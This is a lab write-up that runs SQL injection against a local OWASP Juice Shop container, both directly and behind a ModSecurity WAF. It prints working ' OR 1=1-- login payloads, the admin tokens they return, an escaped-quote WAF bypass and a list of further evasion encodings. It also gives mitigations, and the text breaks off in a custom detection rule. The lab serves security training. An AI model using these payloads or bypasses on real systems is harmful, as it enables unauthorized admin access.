🛠 Step-by-Step Overview:
docker pull bkimminich/juice-shop
docker run -d -p 3000:3000 --name juice-shop bkimminich/juice-shop
curl -X POST http://localhost:3000/rest/user/login \
-H "Content-Type: application/json" \
--data '{"email":"'\'' OR 1=1--", "password":"any-password"}'
🟢 Token:
{"authentication":{"token":"eyJ0eXAiOiJKV1QiLCJhbGciOiJSUzI1NiJ9.eyJzdGF0dXMiOiJzdWNjZXNzIiwiZGF0YSI6eyJpZCI6MSwidXNlcm5hbWUiOiIiLCJlbWFpbCI6ImFkbWluQGp1aWNlLXNoLm9wIiwicGFzc3dvcmQiOiIwMTkyMDIzYTdiYmQ3MzI1MDUxNmYwNjlkZjE4YjUwMCIsInJvbGUiOiJhZG1pbiIsImRlbHV4ZVRva2VuIjoiIiwibGFzdExvZ2luSXAiOiIiLCJwcm9maWxlSW1hZ2UiOiJhc3NldHMvcHVibGljL2ltYWdlcy91cGxvYWRzL2RlZmF1bHRBZG1pbi5wbmciLCJ0b3RwU2VjcmV0IjoiIiwiaXNBY3RpdmUiOnRydWUsImNyZWF0ZWRBdCI6IjIwMjUtMDQtMTIgMTc6MTU6NTEuNzAwICswMDowMCIsInVwZGF0ZWRBdCI6IjIwMjUtMDQtMTIgMTc6MTU6NTEuNzAwICswMDowMCIsImRlbGV0ZWRBdCI6bnVsbH0sImlhdCI6MTc0NDQ3ODE2NH0.A95S0Zf7L5dNyN0Fcwz9SGi_ayrP4zPMNn0QzmVh_BD3ayMIpBU1nfn6l6zscLtxRPYmL5V1UyvKGNyotwm_ysFXAsAkxSiJJiwc6wmYvNJ604eTmo8JndHHL9d-P-F5wGUWvrtoZh0JF6mmU3AvLCsuHK-VltuEgOq1NqqzGKQ","bid":1,"umail":"admin@juice-sh.op"}}
✅ Successfully bypassed login using classic ' OR 1=1-- SQLi.
Used the returned token to access:
curl -v -H "Authorization: Bearer <TOKEN>" \
http://localhost:3000/rest/user/authentication-details/ -o admin_access.html
✅ Returned a list of users. Proof of admin privileges.
docker stop juice-shop && docker rm juice-shop










extended it by placing Juice Shop behind a WAF (ModSecurity) using OWASP CRS:
# docker-compose.yml
services:
juice-shop:
image: bkimminich/juice-shop
networks:
- app-network
ports:
- "3000:3000"
modsecurity:
image: owasp/modsecurity-crs:nginx
environment:
- BACKEND=http://juice-shop:3000
ports:
- "8080:8080"
networks:
- app-network
networks:
app-network:
driver: bridge
docker compose up -d
curl -X POST http://localhost:3000/rest/user/login \
-H "Content-Type: application/json" \
--data '{"email":"'\'' OR 1=1--", "password":"any-password"}'
🧪 Behavior Comparison: Port 3000 (direct): SQLi ' OR 1=1-- succeeds ✅
🟢 Token:
{"authentication":{"token":"eyJ0eXAiOiJKV1QiLCJhbGciOiJSUzI1NiJ9.eyJzdGF0dXMiOiJzdWNjZXNzIiwiZGF0YSI6eyJpZCI6MSwidXNlcm5hbWUiOiIiLCJlbWFpbCI6ImFkbWluQGp1aWNlLXNoLm9wIiwicGFzc3dvcmQiOiIwMTkyMDIzYTdiYmQ3MzI1MDUxNmYwNjlkZjE4YjUwMCIsInJvbGUiOiJhZG1pbiIsImRlbHV4ZVRva2VuIjoiIiwibGFzdExvZ2luSXAiOiIiLCJwcm9maWxlSW1hZ2UiOiJhc3NldHMvcHVibGljL2ltYWdlcy91cGxvYWRzL2RlZmF1bHRBZG1pbi5wbmciLCJ0b3RwU2VjcmV0IjoiIiwiaXNBY3RpdmUiOnRydWUsImNyZWF0ZWRBdCI6IjIwMjUtMDQtMTIgMTc6Mzg6MDYuNDYwICswMDowMCIsInVwZGF0ZWRBdCI6IjIwMjUtMDQtMTIgMTc6Mzg6MDYuNDYwICswMDowMCIsImRlbGV0ZWRBdCI6bnVsbH0sImlhdCI6MTc0NDQ3OTU0M30.Bb7GoHWd2MIqifvgbG2vExLKbOigNfvA8rtEzIcr25ddLScvjHLRYfnPcIXXf3MoBQxoIIxUM57P8JUQISGdoXeQUTlctzl8ruyxherUuTL_LMka3xcQlCTo22lqyFlzHKwvdiPGrwm2rSpuHrbCr-80gJAsqXaBSab4Z4ntldI","bid":1,"umail":"admin@juice-sh.op"}}
curl -X POST http://localhost:8080/rest/user/login -H
"Content-Type: application/json" --data '{"email":"'\'' OR 1=1--", "password":"any-password"}'
🟢 Response:
<html>
<head><title>403 Forbidden</title></head>
<body>
<center><h1>403 Forbidden</h1></center>
<hr><center>nginx</center>
</body>
</html>
```bash
Port 8080 (WAF): SQLi ' OR 1=1-- blocked ❌ (HTTP 403)
🧾 Verified WAF logs:
docker-compose logs modsecurity | grep 'ModSecurity'





The WAF (Web Application Firewall) inspects incoming requests before they reach the application. It uses regex patterns and libinjection to detect attacks like SQL injection.
Example rule from CRS:
SecRule ARGS "@rx ' OR 1=1" "id:942100,deny,status:403"
This rule will only match payloads containing:
' OR 1=1
If you escape the quote like \', the pattern won't match.
📍WAF Layer: Sees this payload:
{"email":"\\' OR 1=1--", "password":"x"}
Parses it as:
\' OR 1=1--
Interprets the quote as escaped, so it doesn't match the pattern ' OR 1=1.
📍App Layer: Many web frameworks or legacy PHP apps apply automatic backslash stripping (e.g., stripslashes()).
The payload becomes: ' OR 1=1--
Which is a valid SQLi payload.
🔥 Result: SQL Injection bypasses WAF filtering and successfully authenticates as admin.
✅ Successful Bypass Using curl:
curl -v -X POST http://localhost:8080/rest/user/login \
-H "Content-Type: application/json" \
-d '{"email":"\\'\'' OR 1=1--", "password":"x"}'
🟢 Response:
< HTTP/1.1 200 OK
< Server: nginx
< Date: Sat, 12 Apr 2025 18:01:26 GMT
< Content-Type: application/json; charset=utf-8
< Content-Length: 811
< Connection: keep-alive
< Access-Control-Allow-Origin: *
< X-Content-Type-Options: nosniff
< X-Frame-Options: SAMEORIGIN
< Feature-Policy: payment 'self'
< X-Recruiting: /#/jobs
< ETag: W/"32b-hxgLnFSjsA7X5Bv41iu/kfLnYxk"
< Vary: Accept-Encoding
< Access-Control-Allow-Headers: *
<
* Connection #0 to host localhost left intact
{"authentication":{"token":"eyJ0eXAiOiJKV1QiLCJhbGciOiJSUzI1NiJ9.eyJzdGF0dXMiOiJzdWNjZXNzIiwiZGF0YSI6eyJpZCI6MSwidXNlcm5hbWUiOiIiLCJlbWFpbCI6ImFkbWluQGp1aWNlLXNoLm9wIiwicGFzc3dvcmQiOiIwMTkyMDIzYTdiYmQ3MzI1MDUxNmYwNjlkZjE4YjUwMCIsInJvbGUiOiJhZG1pbiIsImRlbHV4ZVRva2VuIjoiIiwibGFzdExvZ2luSXAiOiJ1bmRlZmluZWQiLCJwcm9maWxlSW1hZ2UiOiJhc3NldHMvcHVibGljL2ltYWdlcy91cGxvYWRzL2RlZmF1bHRBZG1pbi5wbmciLCJ0b3RwU2VjcmV0IjoiIiwiaXNBY3RpdmUiOnRydWUsImNyZWF0ZWRBdCI6IjIwMjUtMDQtMTIgMTc6NDM6MDYuNTcwICswMDowMCIsInVwZGF0ZWRBdCI6IjIwMjUtMDQtMTIgMTc6NDQ6MTUuNDMyICswMDowMCIsImRlbGV0ZWRBdCI6bnVsbH0sImlhdCI6MTc0NDQ4MDg4N30.xKtdCkAlBQiEUzXPEphC50ts99ayZhrv5vi8GQZNQAHfFS89wkEeQw_eW6gXWHaFnKBVZsMuCTJTJH7YPdy4RKnCUrw1NMwORvgdqa9MgyGCujVndqS05cHw8MIBnJdgqQLNS08uyQaeTAHwtBq80OWdjkSayvNWJW2fMFhpXRA","bid":1,"umail":"admin@juice-sh.op"}}
🔹 Step 3: Admin Access Used the returned token to access:
curl -v -H "Authorization: Bearer <TOKEN>" \
http://localhost:8080/rest/user/authentication-details/ -o bypass_waf.html
🟢 Response:
< HTTP/1.1 200 OK
< Server: nginx
< Date: Sat, 12 Apr 2025 18:05:11 GMT
< Content-Type: application/json; charset=utf-8
< Content-Length: 7860
< Connection: keep-alive
< Access-Control-Allow-Origin: *
< X-Content-Type-Options: nosniff
< X-Frame-Options: SAMEORIGIN
< Feature-Policy: payment 'self'
< X-Recruiting: /#/jobs
< ETag: W/"1eb4-k/eHBz/1LX3ocx7sOYt9+6ft3fU"
< Vary: Accept-Encoding
< Access-Control-Allow-Headers: *
<
{ [7860 bytes data]
100 7860 100 7860 0 0 367k 0 --:--:-- --:--:-- --:--:-- 383k
* Connection #0 to host localhost left intact
Contains a valid JWT token for the admin user.
Layer Input Seen Action Taken
WAF ' OR 1=1-- Escaped quote → doesn't match regex → allowed
App ' OR 1=1-- (after stripping) Valid SQL → admin login → returns token
🧱 5. Other Common Bypass Techniques
Technique Example Notes
Escaped characters ', " Bypass basic regex patterns
Unicode encoding %27 OR 1=1-- %27 = '
Double URL encoding %255C%27 OR 1=1-- %255C → %5C →
Case variation ' oR 1=1-- Not all WAFs are case-insensitive
JSON nested injection JSON inside JSON (e.g., APIs) Many WAFs poorly handle JSON
🧹 6. Mitigation Tips
✅ Use parameterized queries (prepared statements).
🔒 Apply WAF with context-aware parsers (e.g., JSON parsers for API endpoints).
🛡️ Enable WAF logging and tuning to catch obfuscated payloads.
🚫 Avoid relying solely on regex patterns for detection.
✅ Conclusion ' bypasses the WAF because escaping changes how the input is interpreted.
WAF sees escaped quotes, while the application sees unescaped input — leading to successful SQLi.
Proper backend sanitization and WAF tuning are essential to mitigate such attacks.





This part involves creating a custom Web Application Firewall (WAF) rule to detect and block simple SQL injection attempts in a containerized OWASP ModSecurity Core Rule Set (CRS) environment.
Create a file named custom-rules.conf with the following rule definition:
cat <<EOF > custom-rules.conf
SecRule REQUEST_BODY|ARGS|ARGS_NAMES|REQUEST_URI|REQUEST_HEADERS \
"@rx (?i)(\\\\)?['\"]\s*OR\s*1=1\s*--" \
"id:1005,\
phase:2,\
deny,\
status:403,\
